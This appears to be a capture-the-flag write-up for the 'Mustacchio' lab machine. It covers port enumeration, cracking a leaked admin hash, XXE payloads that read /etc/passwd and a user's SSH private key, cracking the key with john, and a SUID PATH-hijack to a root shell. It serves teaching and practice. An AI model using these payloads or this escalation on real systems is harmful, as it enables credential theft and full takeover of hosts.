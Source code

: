 # Mustacchio

### Mustacchio
Nmap scan shows ports 22,80 and 8765 open. First is ssh. last two are webserver (apache and nginx). Port 8765 contains an admin panel. Furthemore, enumerating the webserver on port 80 shows a `/custom` directory, that contains a file called `users.bak`. I downloaded it and it seems to be a backup sql file: <br />
![image](https://github.com/user-attachments/assets/5313203a-d719-4202-a64f-069249d7a9ca)<br />
The username is `admin`, the password can be easily cracked using crackstation. Once inside the admin panel on port 8765, there's a comment inside the source code: <br />
![image](https://github.com/user-attachments/assets/60a81adf-7118-46be-acda-d82d5c78c471)<br />
I have a username, `barry`. The admin panel allows me to add comments in the website. If I submit an empty request: <br />
![image](https://github.com/user-attachments/assets/8c745c63-40f7-4c14-95e8-67c4c4a54fd4)<br />

There's also another interesting comment: <br />
![image](https://github.com/user-attachments/assets/8f7d50b9-2dc0-47b6-8863-d0e69339e091)<br />
Also, If I click `submit` without any input, I get:<br />
![image](https://github.com/user-attachments/assets/79be0710-5363-4481-a796-b3cd7e9da20a)<br />
It contains the following message: <br />
![image](https://github.com/user-attachments/assets/b05b85c7-d003-42cc-9fc3-675682ecd65f)<br />
This tells me what format the xml input should have. This an XXE vulnerability. If I use this payload: <br />

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    <comment>
        <name>Example Name</name>
        <author>John Doe</author>
        <com>&ent;</com>
    </comment>
I get the following:<br />
![image](https://github.com/user-attachments/assets/0e9708e2-6e3d-449a-b3dd-205b841825c7)<br />
An XXE attack occurs when XML input containing a reference to an external entity is processed by a poorly configured XML parser. The following payload:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
    <comment>
        <name>Example Name</name>
        <author>John Doe</author>
        <com>&ent;</com>
    </comment>

gets me barry's ssh private key. But it's protected by a passphrase. To crack it, run `ssh2john id_rsa_barry > hash.txt`, then `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`.<br />
Now for privesc: there's a SUID file `/home/joe/live_log` in which I have root privileges, and it executes the command "tail -f /var/log/nginx/access.log". If I make a request to the webserver using "test" as user-agent, I get the following feedback: <br />
![image](https://github.com/user-attachments/assets/fbbf22ed-cc0c-4fed-b991-0c4a3f74dd9c)<br />
The problem with this command is that it's executing `tail`, not `/usr/bin/tail` or whatever. The path is relative. This means that I can change the environment variables to execute my own `tail` command. Create a malicious `tail` file inside barry's home directory:

    #!/bin/bash
    /bin/bash
Now run `chmod +x tail` and run `export PATH=/home/barry:$PATH`. Now just run the SUID binary and you should have a root shell. 




